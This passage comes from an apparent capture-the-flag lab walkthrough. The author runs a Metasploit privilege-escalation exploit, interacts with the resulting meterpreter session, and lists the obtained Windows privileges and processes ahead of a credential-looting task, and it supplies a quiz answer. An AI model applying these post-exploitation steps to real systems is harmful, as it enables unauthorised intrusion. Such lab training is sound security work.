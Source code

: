 12.After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails. 
>>No answer needed

13.Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`
>>No answer needed

14.We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?
>>SeTakeOwnershipPrivilege

----

# Task 5 Looting
----

>>Learn how to gather additional credentials and crack the saved hashes on the machine.

>>AFTER RUNNING THE EXPLOIT AND ENTER "getprivs" TO SET OWNERSHIP THERE.

```bash
meterpreter > 
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
```